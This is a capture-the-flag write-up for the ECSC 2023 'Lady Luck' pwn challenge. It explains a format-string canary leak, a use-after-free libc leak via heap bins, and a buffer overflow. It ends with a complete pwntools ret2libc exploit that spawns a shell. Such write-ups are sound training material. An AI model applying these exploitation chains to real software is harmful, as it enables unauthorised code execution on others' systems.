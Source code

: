 ```yaml
---
id: 17
title: "ECSC 2023: Lady Luck"
subtitle: "ECSC 2023 Day 3: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, c++, pwn, ctf"
---
```


## Foreword

This challenge was a lot more interesting than those on Day 1. It featured a use-after-free to leak libc address, though the challenge overall is still a ret2libc challenge.

# Lady Luck

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d3/ladyluck/lady_luck'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

It has everything enabled. This means we potentially need to watch out for the canary as well as the PIE offset.

We open the binary in IDA and see that it's a menu based application.
```c
buf = 0;
v5 = 0;
fwrite(&unk_2508, 1uLL, 0x79uLL, stdout);
option1 = read_num();
if ( !option1 || option1 > 3 )
{
  puts("\nAre you trying to cheat Lady Luck?!\n");
  exit(1312);
}
fwrite(&unk_25B0, 1uLL, 0x66uLL, stdout);
read(0, &buf, 6uLL);
fflush(stdin);
if ( !strcmp((const char *)&buf, "fr33c01n5f0r3v3ry0n3") )
{
  coins = 0x174876E7FFLL;
}
else
{
  fprintf(stdout, "\n%s[-] Sorry, this is not correct: ", "\x1B[1;31m");
  fprintf(stdout, (const char *)&buf);
  puts("\x1B[1;34m");
}
menu();
```

There is a format string exploit with an input of up to length 6 in `main()` before it goes into menu. We can thus use it to leak the canary `%8$p`.

Decompiling `menu()` and all its subfunctions, we find out that `buy_pots()` restricts the potions you can buy to a maximum size of `0x82`.
```c
fwrite("\nml: ", 1uLL, 5uLL, stdout);
psize = read_num();
if ( psize <= 0x82 && psize )
{
  if ( check_coins(20 * psize) )
    coins -= 20 * psize;
  fwrite("\nSlot to place it: ", 1uLL, 0x13uLL, stdout);
  pindex = read_num();
  if ( pindex > 9 )
    goto LABEL_13;
  red_pots[pindex] = (char *)malloc(psize);
  strcpy(red_pots[pindex], "Lucky Red    potion x1");
}
```

`sell_pots()` calls `free()` but does not reset the pointer, which allows for a use-after-free or related bugs.
```c
free(red_pots[index]);
fprintf(stdout, "%s\n[+] Sold! You got back 20 coins!%s\n\n", "\x1B[1;32m", "\x1B[1;34m");
coins += 20LL;
```

`show_inventory()` will list out everything in the inventory, *including the freed elements in the array* due to the pointer not being set to null after `free()` (use-after-free!). This can be used to leak whatever we can get by calling `sell_pots()`.
```c
for ( i = 0LL; i <= 9; ++i )
{
  if ( red_pots[i] )
    fprintf(stdout, "Slot [%d]: %s\n", i, red_pots[i]);
  else
    fprintf(stdout, "Slot [%d]: Empty\n", i);
}
```

`discount_code()` defines an input buffer of length `0x80` but allows the user to input up to `0xB7` bytes with `fgets()`, which allows for buffer overflow.
```c
memset(y, 0, 128);
fwrite(
"\nI will tell you the lucky phrase for your next purchase, but you need to give me a good reason why: \n\n",
1uLL,
0x67uLL,
stdout);
fgets(y, 0xB7, stdin);
fwrite("Your code is: [fr33c01n5f0r3v3ry0n3]\n", 1uLL, 0x25uLL, stdout);
```

We can leak the libc address by buying 8 potions of length `0x82` then selling all of them. This is due to the way the tcache bins work (7 same-sized bins), and because of the use-after-free caused by the bad `free()` usage, we can leak the pointer to the 8th freed bin which would point to the main arena.

We still need to keep the top chunk in place to prevent coalescing, so theoretically we need to buy index 0-8 and sell index 0-7, then show index 7. We see a `0x7f` byte in gdb which tells we leaked some address in libc (since it points to the main arena). We set a breakpoint at `show_inventory()` and see our leaked address. Then we can simply `xinfo` to find the static offset to libc base, which is `0x219ce0`.

Chaining everything together, we have:
1. Leak canary with fsb
2. Leak libc with `buy_pots()`, `sell_pots()` and `show_inventory()`
3. Buffer overflow and ret2libc

We can automate the process with pwntools:
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./lady_luck", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./lady_luck", "localhost", gdbscript="b show_inventory")

def sell(n):
	p.sendlineafter(">>", "2")
	p.sendlineafter(":", str(n))

def buy(n):
	p.sendlineafter(">>", "1")
	p.sendlineafter(":", str(0x82))
	p.sendlineafter(":", str(n))

def inventory():
	p.sendlineafter(">>", "3")

# Leak canary
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendlineafter(": ", "%8$p")
p.recvuntil(": ")
canary = int(p.recvline(), 16)
info(f"{hex(canary) =}")

p.sendlineafter(">>", "1")

# bin collision magic
for i in range(10):
	buy(i)

p.sendlineafter(">>", "3")

for i in range(9):
	sell(i)

# leak libc address, calcullate libc base
inventory()

p.recvuntil("[7]: ")
libc.address = u64(p.recvline().rstrip(b'\n').ljust(8,b'\x00')) - 0x219ce0
success(f"{hex(libc.address) =}")

# perform bof and ret2libc
p.sendlineafter(":", "4")

rop = ROP(libc)

rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh")))

payload = flat({0x88: p64(canary), 0x90: p64(0) + rop.chain()})

p.sendafter(":", payload)

p.interactive()
```

`cat flag.txt` for the flag.

## Afterword

The most fun challenge out of all the rest because of the different layers that went into this, from leaking canary to getting a libc address, before finally sending the final payload to pop shell. Honestly I think it would've been easier if I had stronger knowledge on tcache and bins, but nonetheless it was kinda fun.

Throughout the competition, huge thanks to all my teammates for working tirelessly and especially [enigmatrix](https://enigmatrix.me) for his guidance with solving the pwn challenges.

Thanks for reading!
